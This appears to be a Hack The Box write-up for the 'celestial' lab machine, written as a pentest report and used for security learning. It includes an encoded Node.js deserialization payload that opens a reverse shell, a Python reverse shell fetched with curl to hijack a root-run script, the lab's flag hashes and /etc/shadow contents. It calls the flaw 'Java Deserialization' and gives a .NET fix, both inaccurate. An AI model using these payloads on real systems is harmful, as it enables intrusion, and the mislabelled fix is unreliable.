





# Hack The Box: celestial Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the celestial machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the celestial machine.

The specific IP address was:

- 10.10.10.85

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the celestial machine.

\newpage

### System IP: 10.10.10.85

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.85      | **TCP:** \ **UDP:**

\newpage

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p $all_ports -sC -sV -oN /HTB-boxes/celestial/recon/nmap_all_tcp.md 10.10.10.85
```

Notable Output:

```txt
3000/tcp open  http    syn-ack Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p $all_ports --script vuln -oN /HTB-boxes/celestial/recon/nmap_all_vuln.md 10.10.10.85
```

Notable Output:

```txt
3000/tcp open  ppp     syn-ack
```


\newpage

#### Initial Access

**Vulnerability Exploited:** Java Deserialization

**Vulnerability Explanation:**

Untrusted data passed into unserialize() function can be exploited to
achieve arbitrary code execution by passing a JavaScript Object with an
Immediately invoked function expression (IIFE).

**Vulnerability Fix:**

Use XmlReader to deserialize the data.

Reference: https://docs.microsoft.com/en-us/dotnet/fundamentals/code-analysis/quality-rules/ca5369?view=vs-2019

**Severity:** Critical

\newpage

**Exploit Code:**

Reference: *https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf*


Use this script to generate a reverse shell for nodejs:

nodejsshell.py: *https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py*

Craft payload:

```txt
{"rce":"_$$ND_FUNC$$_function (){value}()"}
```

Replace "value" with generated payload:

```txt
{"rce":"_$$ND_FUNC$$_function (){value}
```

Example:

```txt
{"rce":"_$$ND_FUNC$$_function (){eval(String.fromCharCode(10,118,97,114,32,110,101,116,32,61,32,114,101,113,117,105,114,101,40,39,110,101,116,39,41,59,10,118,97,114,32,115,112,97,119,110,32,61,32,114,101,113,117,105,114,101,40,39,99,104,105,108,100,95,112,114,111,99,101,115,115,39,41,46,115,112,97,119,110,59,10,72,79,83,84,61,34,49,48,46,49,48,46,49,52,46,51,34,59,10,80,79,82,84,61,34,52,51,50,49,34,59,10,84,73,77,69,79,85,84,61,34,53,48,48,48,34,59,10,105,102,32,40,116,121,112,101,111,102,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,61,61,32,39,117,110,100,101,102,105,110,101,100,39,41,32,123,32,83,116,114,105,110,103,46,112,114,111,116,111,116,121,112,101,46,99,111,110,116,97,105,110,115,32,61,32,102,117,110,99,116,105,111,110,40,105,116,41,32,123,32,114,101,116,117,114,110,32,116,104,105,115,46,105,110,100,101,120,79,102,40,105,116,41,32,33,61,32,45,49,59,32,125,59,32,125,10,102,117,110,99,116,105,111,110,32,99,40,72,79,83,84,44,80,79,82,84,41,32,123,10,32,32,32,32,118,97,114,32,99,108,105,101,110,116,32,61,32,110,101,119,32,110,101,116,46,83,111,99,107,101,116,40,41,59,10,32,32,32,32,99,108,105,101,110,116,46,99,111,110,110,101,99,116,40,80,79,82,84,44,32,72,79,83,84,44,32,102,117,110,99,116,105,111,110,40,41,32,123,10,32,32,32,32,32,32,32,32,118,97,114,32,115,104,32,61,32,115,112,97,119,110,40,39,47,98,105,110,47,115,104,39,44,91,93,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,119,114,105,116,101,40,34,67,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,112,105,112,101,40,115,104,46,115,116,100,105,110,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,111,117,116,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,115,116,100,101,114,114,46,112,105,112,101,40,99,108,105,101,110,116,41,59,10,32,32,32,32,32,32,32,32,115,104,46,111,110,40,39,101,120,105,116,39,44,102,117,110,99,116,105,111,110,40,99,111,100,101,44,115,105,103,110,97,108,41,123,10,32,32,32,32,32,32,32,32,32,32,99,108,105,101,110,116,46,101,110,100,40,34,68,105,115,99,111,110,110,101,99,116,101,100,33,92,110,34,41,59,10,32,32,32,32,32,32,32,32,125,41,59,10,32,32,32,32,125,41,59,10,32,32,32,32,99,108,105,101,110,116,46,111,110,40,39,101,114,114,111,114,39,44,32,102,117,110,99,116,105,111,110,40,101,41,32,123,10,32,32,32,32,32,32,32,32,115,101,116,84,105,109,101,111,117,116,40,99,40,72,79,83,84,44,80,79,82,84,41,44,32,84,73,77,69,79,85,84,41,59,10,32,32,32,32,125,41,59,10,125,10,99,40,72,79,83,84,44,80,79,82,84,41,59,10))}()"}
```

Encode the payload in base64, (replace value with your generated payload):

Reference: *https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')*

Start a reverse shell listener:

```bash
nc -lvnp 4321
```

Copy the payload to burp's intruder, and send request:



We get a shell:



Now we can pimp (upgrade) our shell

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```



\newpage

**Local.txt Contents**

```txt
9a093cd22ce86b7f41db4116e80d0b0f
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Weak File Permissions

**Vulnerability Explanation:**

An attacker has access a file that is automatically run by the root user. Using this permission to edit the file, an attacker can run malicious code on the target machine with root priveleges. 

**Vulnerability Fix:**

Revoke permission for users besides root to edit */home/sun/Documents/script.py*.

**Severity:** Critical

\newpage

**Exploit Code:**

Using *pspy64*, we can see that *script.py* is run by root:

```txt
2022/05/03 19:00:01 CMD: UID=0    PID=26465  | cp /root/script.py /home/sun/Documents/script.py
```

We can edit */home/sun/Documents/script.py*

Create a python reverse shell file named *rev.py* on your attacker machine:

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.3",1234))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/sh")
```

Spin up an http server on your attacker machine:

```bash
python3 -m http.server 8000
```

Copy the reverse shell into */home/sun/Documents/script.py* by running the following command on the target machine:

```bash
curl -o /home/sun/Documents/script.py http://10.10.14.3:8000/rev.py
```

Start a netcat listener on your attacker machine:

```bash
nc -lvnp 1234
```

We can see that the python file has been run:



We get a shell.



\newpage

**Proof.txt Contents:**

```txt
ba1d0019200a54e370ca151007a8095a
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the celestial machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the Box should not have to remove any user accounts or services from the system.

\newpage

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.85   |  9a093cd22ce86b7f41db4116e80d0b0f | ba1d0019200a54e370ca151007a8095a

\newpage

## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:116::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
sun:x:1000:1000:sun,,,:/home/sun:/bin/bash
```
\newpage

## Appendix - /etc/shadow contents

```txt
root:!:17428:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
proxy:*:17001:0:99999:7:::
www-data:*:17001:0:99999:7:::
backup:*:17001:0:99999:7:::
list:*:17001:0:99999:7:::
irc:*:17001:0:99999:7:::
gnats:*:17001:0:99999:7:::
nobody:*:17001:0:99999:7:::
systemd-timesync:*:17001:0:99999:7:::
systemd-network:*:17001:0:99999:7:::
systemd-resolve:*:17001:0:99999:7:::
systemd-bus-proxy:*:17001:0:99999:7:::
syslog:*:17001:0:99999:7:::
_apt:*:17001:0:99999:7:::
messagebus:*:17001:0:99999:7:::
uuidd:*:17001:0:99999:7:::
lightdm:*:17001:0:99999:7:::
whoopsie:*:17001:0:99999:7:::
avahi-autoipd:*:17001:0:99999:7:::
avahi:*:17001:0:99999:7:::
dnsmasq:*:17001:0:99999:7:::
colord:*:17001:0:99999:7:::
speech-dispatcher:!:17001:0:99999:7:::
hplip:*:17001:0:99999:7:::
kernoops:*:17001:0:99999:7:::
pulse:*:17001:0:99999:7:::
rtkit:*:17001:0:99999:7:::
saned:*:17001:0:99999:7:::
usbmux:*:17001:0:99999:7:::
sun:$6$vjnaoS9y$9CxSDZKJguHS6tK1MJF.1VchFRx5v8KS.zDDyjltn5VmPWfy49FAllKJLrDxtNQ/F25emeJek4GiQAIwkGgMt0:17428:0:99999:7:::
```